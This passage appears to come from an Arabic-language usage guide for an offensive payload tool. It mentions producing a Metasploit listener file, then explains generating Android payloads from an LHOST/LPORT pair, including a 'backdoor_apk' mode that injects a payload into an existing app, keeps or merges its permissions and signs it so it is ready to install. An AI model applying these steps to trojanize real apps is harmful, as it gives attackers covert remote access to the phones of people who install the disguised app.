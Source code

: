 **النتيجة**: ملف `handler.rc` جاهز لتشغيل المستمع في Metasploit

---

### 4. 🔹 Android APK

عند اختيار Android APK، ستحصل على خيارين:

#### أ) الإدخال البسيط:
**صيغة الإدخال**:
```
LHOST LPORT
```

**مثال**:
```
10.0.2.2 4444
```

**ملاحظة**: `10.0.2.2` هو IP الافتراضي للـ Android Emulator

#### ب) الخيارات المتقدمة:
**صيغة الإدخال**:
```
MODE PERM LHOST LPORT [OUTPUT_NAME] [KEYSTORE:ALIAS:STOREPASS:KEYPASS]
```

**مثال بدون توقيع**:
```
backdoor_apk keep 10.0.2.2 4444 myapp
```

**مثال مع التوقيع الرقمي**:
```
backdoor_apk keep 10.0.2.2 4444 myapp /path/keystore.jks:myalias:storepass:keypass
```

**شرح المعاملات المتقدمة**:

#### وضع التشغيل (MODE):
- `backdoor_apk`: حقن payload في APK موجود
- `standalone`: إنشاء APK جديد كامل

#### استراتيجية الصلاحيات (PERM):
- `keep`: الاحتفاظ بصلاحيات APK الأصلي
- `merge`: دمج صلاحيات الـ payload مع الأصلي

#### معلومات التوقيع (اختيارية):
- `KEYSTORE`: مسار ملف keystore
- `ALIAS`: اسم المفتاح
- `STOREPASS`: كلمة مرور المخزن
- `KEYPASS`: كلمة مرور المفتاح

**النتيجة**: ملف APK موقع وجاهز للتثبيت

---
